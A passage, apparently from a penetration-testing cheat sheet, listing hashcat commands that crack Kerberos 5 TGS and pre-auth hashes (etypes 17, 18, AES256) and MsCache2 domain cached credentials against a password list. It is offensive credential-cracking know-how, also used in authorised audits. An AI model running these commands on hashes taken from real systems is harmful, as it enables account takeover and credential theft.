  hashcat64.exe -m 19700  -a 0 <krb5tgsaes256.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 17, Pre-Auth
  ```shell
  hashcat64.exe -m 19800  -a 0 <krb5tetype17.txt> <passlist.txt> -o cracked.txt
  ```

  ### Kerberos 5 etype 18, Pre-Auth
  ```shell
  hashcat64.exe -m 19900  -a 0 <krb5tetype18.txt> <passlist.txt> -o cracked.txt
  ```

  ### MsCache 2 (slow af)
  ```shell
  hashcat64.exe -m 2100 -a 0 <mscache2-hashes.txt> <passlist.txt> -o cracked.txt
  ```
  </details>
